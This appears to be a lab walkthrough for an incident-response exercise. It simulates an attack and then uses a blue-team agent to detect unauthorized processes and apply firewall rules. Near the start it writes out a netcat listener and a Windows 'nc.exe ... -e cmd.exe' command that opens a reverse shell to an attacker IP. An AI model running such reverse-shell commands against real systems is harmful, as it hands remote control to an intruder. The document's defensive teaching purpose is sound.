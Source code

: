### Incident Response Scenario

Simulate a simple Incident Response scenario to trigger some of the abilities included in the **Incident Responder** profile. 

**First**: Establish a reverse shell from our victim machine to our AttackBox instance.

Attack Machine

```bash
nc -lvp 4444 -s $(hostname -I | awk '{print $1}')
```

Victim Machine

```powershell
PS C:\Tools> .\nc.exe 10.10.39.5 4444 -e cmd.exe
```

![image.png](attachment:4bdb7ad5-d18c-4a03-9b53-1f2a00fee478:image.png)

Now, let's execute the response operation and observe the behaviour 

### Running Blue operation

**Second**: deploy a new blue agent

![image.png](attachment:a19e8b6b-b4d5-47fa-844d-31f9f867c749:image.png)

Choose the blue-team agent reverse shell

![image.png](attachment:e141e3fd-e9e7-4052-9cdd-fec18ee8ecb0:image.png)

Execute it on the victim machine.

![image.png](attachment:b9487ba9-de06-43f4-8c56-38211370606d:image.png)

The Agent is now active

![image.png](attachment:6740e3af-9f6c-41ad-8338-a5fdbc5447de:image.png)

**Third**: Create a new blue operation

![image.png](attachment:3caa288b-3338-4630-8c86-64d352f4a39c:image.png)

Start the operation.

![image.png](attachment:28ce63da-22bc-4cbe-a899-06623aa528ea:image.png)

The output of `Find unauthorized processes` ****ability

![image.png](attachment:5b95fad3-fe4a-4da7-885c-0b0129f6dd13:image.png)

![image.png](attachment:d015d7fc-452d-4e5b-8e8b-8e390368c125:image.png)

the output of `Enable Outbound TCP/UDP firewall rule` ability
